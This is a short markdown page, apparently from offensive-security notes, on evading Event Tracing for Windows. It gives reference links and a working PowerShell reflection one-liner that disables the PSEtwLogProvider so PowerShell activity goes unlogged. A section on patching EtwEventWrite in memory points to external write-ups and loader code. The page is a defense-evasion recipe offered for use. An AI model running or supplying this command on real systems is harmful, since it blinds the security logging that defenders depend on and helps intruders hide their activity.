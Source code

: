 ```yaml
---
description: Event Tracing for Windows
---
```


# ETW

- [https://bmcder.com/blog/a-begginers-all-inclusive-guide-to-etw](https://bmcder.com/blog/a-begginers-all-inclusive-guide-to-etw)
- [https://threadreaderapp.com/thread/1706772248802291929.html](https://threadreaderapp.com/thread/1706772248802291929.html)




## Disable PSEtwLogProvider

- [https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32](https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32)

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```




## Patch EtwEventWrite

- [https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)
- [https://github.com/Flangvik/NetLoader/blob/master/Source/Program.cs#L241-L258](https://github.com/Flangvik/NetLoader/blob/master/Source/Program.cs#L241-L258)
